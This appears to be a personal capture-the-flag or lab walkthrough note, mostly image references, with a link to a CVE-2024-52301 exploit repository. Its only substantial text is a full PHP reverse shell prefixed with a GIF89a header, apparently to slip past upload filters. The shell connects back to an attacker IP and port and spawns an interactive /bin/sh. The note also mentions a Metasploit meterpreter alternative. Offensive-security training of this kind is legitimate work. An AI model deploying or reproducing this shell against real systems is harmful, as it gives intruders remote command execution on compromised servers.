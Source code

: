 

![[IMG-20250812200058442.png]]

![[IMG-20250812200058456.png]]

![[IMG-20250812200058468.png]]

![[IMG-20250812200058483.png]]

![[IMG-20250812200058509.png]]

![[IMG-20250812200058532.png]]

![[IMG-20250812200058546.png]]

![[IMG-20250812200058565.png]]

![[IMG-20250812200058580.png]]

![[IMG-20250812200058595.png]]

![[IMG-20250812200058621.png]]

![[IMG-20250812200058648.png]]

![[IMG-20250812200058668.png]]

https://github.com/Nyamort/CVE-2024-52301

![[IMG-20250812200058688.png]]

![[IMG-20250812200058712.png]]

![[IMG-20250812200058731.png]]



![[IMG-20250812200058741.png]]

![[IMG-20250812200058767.png]]

![[IMG-20250812200058787.png]]

![[IMG-20250812200058801.png]]

![[IMG-20250812200058822.png]]

![[IMG-20250812200058841.png]]

```php
GIF89a;
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.222';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

![[IMG-20250812200058858.png]]

![[IMG-20250812200058873.png]]

![[IMG-20250812200058895.png]]

![[IMG-20250812200058913.png]]

![[IMG-20250812200058932.png]]

We can also use a payload meterpreter thanks to [[Metasploit]]


![[IMG-20250812200058952.png]]

![[IMG-20250812200058969.png]]

![[IMG-20250812200058984.png]]

![[IMG-20250812200058999.png]]

![[IMG-20250812200059018.png]]
![[IMG-20250812200059039.png]]

![[IMG-20250812200059059.png]]

